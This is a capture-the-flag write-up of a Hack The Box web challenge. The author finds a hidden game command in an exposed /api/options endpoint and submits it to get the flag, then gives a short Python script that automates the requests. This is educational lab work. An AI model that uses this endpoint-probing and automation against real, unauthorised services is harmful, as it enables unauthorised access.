 # Flag Command - HTB Challenge Writeup
## Reconnaissance / Information Gathering
We first receive the Host information: `83.136.255.10:55943`

![image](https://github.com/user-attachments/assets/53a152be-5c0a-4f96-89bd-f4bc7efbc55c)


Putting this in our web browser, we are faced with a website that is telling a story about being in a alien forest. We are prompted to type 'start' to start our adventure:

![image](https://github.com/user-attachments/assets/62294dbc-1a3f-48b3-a588-9aa4ac008721)

Going through the adventure with the available adventure options, we die and have to start again:
![image](https://github.com/user-attachments/assets/15f0d537-80de-459c-8615-7aa3a96ba5fe)


We can view the main script for the game in the source code. Here we can find if the game displays 'HTB{', then we win the game:
![image](https://github.com/user-attachments/assets/37d55b62-5241-41a1-a978-39fdcd169813)


When trying to put in other JavaScript commands, we are told we can't use other commands, and we must choose from the available options (which are displayed using the command 'help'):
![image](https://github.com/user-attachments/assets/eeeb825e-57d4-40bf-a881-794b9be9a769)


Exploring different avenues, we can find a GET request being sent to '/api/options' in the Network tab of our developer's tool:
![image](https://github.com/user-attachments/assets/8aebd1df-a675-4341-8e87-d8167b18f7d9)


Going to this destination, we can find all the command options for when we start the game. At the bottom, we see the secret value:
![image](https://github.com/user-attachments/assets/702600ad-1d6c-4e50-98f9-c48ea767117b)

Secret: `Blip-blop, in a pickle with a hiccup! Shmiggity-shmack`

## Exploitation
We can start the game with 'start', then enter the 'secret' value into the command-line to get the flag:
![image](https://github.com/user-attachments/assets/82634a97-1d43-4772-9ac4-5e560e245ee8)


# Automation with Python
We can write the following script to automate the process of retrieving the secret value, starting the game, and importing the secret command and exporting the flag:
```python
import requests

# Set target base URL and start a session
base_url = 'http://83.136.255.10:55943'
session = requests.Session()

# Load the main page (initialize session)
session.get(base_url)

# Fetch available command options
options_url = f"{base_url}/api/options"
response = session.get(options_url)
data = response.json()

# Extract the secret command from the response
secret = data['allPossibleCommands']['secret'][0]
print(f"Secret command: {secret}")

# Prepare and send the secret command to the server
command_url = f"{base_url}/api/monitor"
headers = {
  "Content-Type": "application/json",
  "Origin": base_url,
  "Referer": base_url + "/"
}
payload = {"command": secret}
response = session.post(command_url, json=payload, headers=headers)

# Extract and print the flag from the response
print("[+] Response from server:")
flag = response.text
flag_start = flag.find("HTB{")
flag_end = flag.find("}", flag_start) + 1
flag = flag[flag_start:flag_end]
print(flag)
```
- First we utilize the `requests` library to send HTTP requests in python
- Then we capture the data from `/api/options` and extract the secret
- We then send a request to the receiving endpoint `/api/monitor` with the necessary headers, as well as our JSON payload
- Lastly, we extract the response from the server and filter out the flag to only respond with the value of the flag

Running the script we get the following:
![image](https://github.com/user-attachments/assets/fb692b67-56a1-41e6-bc1d-ac9a74ebdad6)

